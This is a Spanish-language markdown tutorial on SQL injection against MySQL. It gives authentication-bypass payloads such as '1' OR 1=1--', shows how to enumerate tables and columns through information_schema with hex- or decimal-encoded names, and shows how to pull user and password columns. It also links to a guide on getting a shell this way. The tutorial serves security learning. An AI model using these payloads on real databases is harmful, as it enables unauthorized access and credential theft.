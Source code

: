 # SQL Injection

Esta vulnerabilidad consiste en inyectar código SQL invasor dentro del código SQL programado, con el objetivo de alterar el funcionamiento del programa.

Una **aproximación a la query** suele ser:

```SQL
SELECT * FROM <x> WHERE <y>=___ ;
```

o

```SQL
SELECT * FROM <x> WHERE <y> LIKE '% ___ %';
```

## MySQL database

Una manera de conocer si la DB es **vulnerable**, es poniendo en la query un `'`. Si vemos que la DB devuelve algún error, eso puede ser indicio de que es vulnerable.

Es **importante** jugar con las comillas (`'`), ya que dependiendo del nivel de seguridad, se podrán usar o no. También hay que tener en cuenta los carácteres al final de la sentencia. Algunos que se pueden usar son `--`, `--+` o `#` (para comentar el resto de la query en el backend).

Algunas de las **consultas básicas** que se usan en este tipo de ataque son:

```TXT
1' OR 1=1--'
1' OR '1' = '1
'OR"='
' OR 1=1--'
' OR 0=0 --'
' OR 'x'='x
```

Estas inyecciones son de gran utilidad:

- `version()`: muestra la version del servidor MySQL.
- `database()`: muestra el nombre de la base de datos actual.
- `current_user()`: muestra la el nombre de usuario y el del host para el que esta autentificada la conexión actual. Este valor corresponde a la cuenta que se usa para  evaluar los privilegios de acceso. Puede ser diferente del valor de `USER()`.
- `last_insert_id()`: devuelve el último valor generado automáticamente que fue insertado en una columna de tipo `AUTO_INCREMENT`.
- `connection_id()`: muestra la el ID de una conexión. Cada conexión tiene su propio y único identificador.
- `@@datadir`: muestra el directorio de la base de datos.

Primero, es importante saber con cuantas **columnas** trabajamos o podemos trabajar. Para ello podemos jugar con la sentencia `ORDER BY`.

Podemos conocer el **nombre y versión** de la DB añadiendo a la query

```SQL
SELECT database(), version()
```

Para obtener **[todas las tablas](https://dev.mysql.com/doc/refman/8.0/en/tables-table.html)** de la DB, se puede hacer añadiendo la consulta:

```SQL
SELECT table_name FROM information_schema.tables
```

Si queremos ver **todas las columnas de una tabla**, podemos hacerlo con la siguiente query:

```SQL
SELECT column_name FROM information_schema.columns
WHERE table_name=char(117,115,101,114,115)
```

o

```SQL
SELECT column_name FROM  information_schema.columns WHERE table_name=0x7573657273
```

En el ejemplo anterior, se intenta buscar todas las columnas de la tabla _users_, pero en la query no se puede poner tal cual _users_, si no que se ha de [pasar a decimal o hexadecimal](https://cryptii.com/pipes/text-decimal). (_users en decimal es 117 115 101 114 115 y en hexadecimal es 0x7573657273_)

Si deseamos obtener datos de alguna columna concreta (en este caso intentaremos obtener _user_ y _password_), deberemos añadir lo siguiente a la query:

```SQL
SELECT user, password FROM users
```

## Enlaces de interes

[SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

[SQL Injection Attacks by Example](http://www.unixwiz.net/techtips/sql-injection.html)

[Use SQL Injection to Run OS Commands & Get a Shell](https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/)
